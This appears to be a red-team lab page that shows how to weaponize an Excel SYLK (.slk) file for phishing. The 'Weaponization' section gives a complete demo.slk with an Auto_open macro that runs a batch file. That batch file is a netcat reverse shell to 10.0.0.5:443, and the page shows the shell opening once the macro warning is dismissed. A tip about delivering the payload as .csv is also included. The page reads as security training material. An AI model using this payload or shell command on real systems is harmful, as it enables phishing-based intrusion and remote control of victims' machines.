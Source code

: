 # Phishing: .SLK Excel

This lab is based on findings by [@StanHacked](https://twitter.com/StanHacked) - see below references for more info.

## Weaponization

Create an new text file, put the the below code and save it as .slk file:

{% code title="demo.slk" %}
```csharp
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("c:\shell.cmd")
C;X1;Y102;K0;EHALT()
E
```
{% endcode %}

![](../../../.gitbook/assets/slk-text.png)

Note that the shell.cmd refers to a simple nc reverse shell batch file:

{% code title="c:\\shell.cmd" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode %}

## Execution

Once the macro warning is dismissed, the reverse shell pops as expected:

![](../../../.gitbook/assets/slk-shell.gif)

Since the file is actually a plain text file, detecting/triaging malicious intents are made easier.

## Bonus

Note that the payload file could be saved as a .csv - note the additional warning though:

![](../../../.gitbook/assets/slk-csv.png)

## References

{% embed url="https://www.youtube.com/watch?v=xY2DIRfqNvA" caption="" %}

[http://www.irongeek.com/i.php?page=videos/derbycon8/track-3-18-the-ms-office-magic-show-stan-hegt-pieter-ceelen](http://www.irongeek.com/i.php?page=videos/derbycon8/track-3-18-the-ms-office-magic-show-stan-hegt-pieter-ceelen)

{% embed url="https://twitter.com/StanHacked/status/1049047727403937795" caption="" %}

